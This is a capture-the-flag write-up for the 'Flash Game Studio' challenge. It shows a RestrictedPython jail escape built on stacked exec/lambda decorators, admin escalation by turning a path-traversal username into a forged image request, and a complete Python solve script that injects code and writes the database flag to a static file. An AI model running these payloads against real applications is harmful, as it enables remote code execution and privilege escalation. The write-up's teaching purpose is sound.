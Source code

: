 ```yaml
---
title: Flash Game Studio
solves: 11
points: 496
created: 2025-04-19T20:17
updated: 2025-04-20T20:28
tags:
  - python
  - jail
  - csrf
---
```


At first glance `FlashGameHelper`  is really sus. It runs user provided code.

So I tried to exploit it first, it is protected with `RestrictedPython`, which sounds pretty secure.

It is pretty obvious that you can inject any code by using a fancy `game_name`.

My first payloads were trying to bypass the `__getitem__` and `__getattr__` ban via destructuring.

```python
ExploitGame:
    pass
g = globals()
[a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z,a1,a]=dir(g)
class Dummy
```

But then my teammate @RJCyber just gave me the payload (😭 my python jail skills have deteriorated). How did I forget about decorators bruh.

```python
@exec
@lambda x: "__import__('os').system('ls')"
def a():pass
```

## role escalation

To actually activate that payload we need to make ourselves a dev.

The admin has to visit `/admit/<uid>`, but all the templates are well defined and there is basically no place to XSS or redirect.

How?

```html
<img class="portrait" src="/user/profile_pic/{{username}}" height="150px"><br>
```

I actually tried to XSS the image tag but later realised I can just make the image point to `/admit/<uid>`.

To do this my username would be `../../admit/<uid>`.

But wait... the `username` has to be passed through a route parameter, and the `..` will be normalized by flask.

```python
@app.route("/request_access/<username>")
def request_access(username):
    visit_profile(username)
    return "Admin visited your profile but probably denied you!"
```

We can solve it by url encoding our payload, a few times.

Just keep trying until it works!

```python
payload = ("../../../admit/"+uid1)
quote(payload.replace('/', '%2F').replace('.', '%2E'))
```

Ok so now let's run this.

## sequence

1. Register 2 users A and B
2. B has username `"../../../admit/" + uid_A"`
3. B requests for admin
4. Admin tries to load image and promotes user A to admin

```html
<img class="portrait" src="/user/profile_pic/../../../admit/<uid_A>" height="150px"><br>
```

Then as admin we logout-login user A, create the game and run it.

## payload

So we can run shell commands, cool, but the flag is inside a database and getting there takes a lot of effort if we use shell.

When experimenting I also discovered that lengthy payloads seems to not work at all, so base64 encoding an entire python file is not feasible.

However after some sleep-deprived grinding I finally came up with something that worked.

```python
from app import database_helper as a
open("static\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
```

This is then wrapped in the carrier shown before.

```python
E: pass
@exec
@lambda x: '\nfrom app import database_helper as a\nopen("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])\n'
def a():pass
class D
```

And we have our final payload.

> Note that running a game requires you to put the name (the code) as an url parameter, I was lazy and just percent encoded everything.

## solve

```python
import random
import re
import requests
from urllib.parse import quote
target = "http://localhost:80"
# target = "http://54.163.45.44"


def encode(s):
    result = []
    for ch in s:
        utf8_bytes = ch.encode('utf-8')
        for b in utf8_bytes:
            result.append(f'%{b:02X}')
    return ''.join(result)


def reg(username):
    s = requests.Session()
    r = s.post(target+"/register", data={"username": username, "password": "www"})
    r.raise_for_status()
    r = s.post(target+"/login", data={"username": username, "password": "www"})
    r.raise_for_status()
    return s


def get_uid(s):
    r = s.get(target+"/profile")
    r.raise_for_status()
    pat = re.compile(r"your UID is ([\w-]+)")
    m = pat.search(r.text)
    return m.group(1)


u1 = "kumo"+str(random.randint(0, 1000000))
s1 = reg(u1)
uid1 = get_uid(s1)
payload = ("../../../admit/"+uid1)
print(payload)
s2 = reg(payload)
print(f"uid1: {uid1}")

print(s2.get(target+"/request_access/"+quote(payload.replace('/', '%2F').replace('.', '%2E'))).url)
s1.get(target+"/logout")
s1 = reg(u1)

code = '''
from app import database_helper as a
open("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
'''
code = """E: pass
@exec
@lambda x: """+repr(code)+"""
def a():pass
class D""".replace('/', '\\x2F').replace('&', '\\x26')

print(s1.get(target+"/dev").status_code)
s1.post(target+"/create_game", data={
    "game_name": code,
    "game_desc": "test",
}).raise_for_status()
print(s1.get(target+"/game/"+u1+"/"+encode(code)+"/test").text)
print(s1.get(target+"/static/flag.txt").text)
```

```flag
UMASS{CR0SS_th3_fl4sH_g4m3_t0_1nj3ct_Pyth0n!1!!11}
```
